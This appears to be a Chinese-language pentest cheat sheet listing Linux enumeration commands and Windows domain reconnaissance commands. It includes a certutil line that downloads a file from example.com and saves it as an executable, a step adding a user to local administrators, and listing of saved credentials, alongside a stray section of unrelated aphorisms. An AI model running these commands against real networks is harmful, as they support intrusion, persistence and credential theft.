 # Linux

## 系统架构信息
* uname -a ： uname命令报告有关计算机的软件和硬件的基本信息。
* cat /etc/issue ：文件/ etc / issue是一个文本文件，其中包含要在登录提示之前打印的消息或系统标识
* cat /etc/*-release ： 文件包含一个被解析以获取信息的描述行。
* cat /proc/version ：/ proc/version指定了Linux内核的版本，用于编译内核的gcc的版本以及内核编译的时间。 它还包含内核
编译器的用户名。
* cat /proc/sys/kernel/version ： /proc/sys/kerne / 中的文件可以用来调整和监视Linux内核操作中的各种活动

## 进程

* ps -ef /ps aux : 列出当前进程快照
* ls -al /proc/ : /proc是非常特殊的，它也是一个虚拟文件系统。 它有时被称为过程信息伪文件系统。 它不包含“真实”文件，而是包含运行时系统信息（例如系统内存，安装的设备，硬件配置等）。
* ls -al /proc/99 :查看关于PID 99的信息.

## 服务

* service -status-all 检查所有服务状态
* systemctl -a 列出安装在文件系统中的所有单元
* cat /etc/services /etc/services将端口号映射到指定的服务

## kali

### 启用root

- sudo passwd

## null

人之贵贱在乎于心 其心贵 虽为贩夫走卒 难掩浩然之气.其心贱 总理庙堂之高

清交淡如水 亲疏随意 爱恨随缘 清凉自在


贫富差距

兴 百姓苦 亡 百姓苦


# windows

## Windows上自带Certutil

### 下载

certutil可用于从互联网下载文件。

```shell
certutil.exe -urlcache -split -f http://example.com/a.txt a.exe
```

## 域信息收集常用命令

net use  查看ipc连接情况
net user /domain 获取域用户列表
net user test 123 /add 添加用户
net localgroup administrators test /add 添加test用户到管理组，一般情况下，管理组才能远程桌面
net group /domain 查询域里面的组
net group "domain admins" /domain 获取域管理员列表
net group "enterprise admins" /domain   查看当前域中企业管理员组用户
net group "domain computers" /domain    查看当前域中的所有的计算机名（登录过该域的计算机）
net group "exchange servers" /domain    查看域内是否存在Exchange
net group "domain controllers" /domain 查看域控制器(如果有多台)
net config workstation  查看当前登录域
net view 查看同一域内机器列表
net view \\ip 查看某IP共享
net view \\test 查看test计算机的共享资源列表
net view /domain 查看内网存在多少个域
Net view /domain:test 查看test域中的机器列表
wmic useraccount get Caption,sid    获取域内所有用户sid
setspn -T target.com -Q */*     获取当前域内所有spn
for /l %i in (1,1,255) do @ping 192.168.0.%i -w 1 -n 1 | find /i"ttl"
for /l %i in (1,1,255) do @ping 10.10.10.%i -w 1 -n 1 | find /i"ttl"

systeminfo  查看补丁情况，也能看到当前机器是否加入域环境
net group "domain controllers" /domain  查询域控
nslookup -type=SRV _ldap._tcp.corp  通过srv记录获取域控地址
nltest /dclist:corp     使用nltest查询域控列表
tasklist /svc   查看进程及对应服务名
cmdkey /l   查看当前保存的登陆凭证
type c:\Windows\system32\drivers\etc\hosts  可以发现些内网IP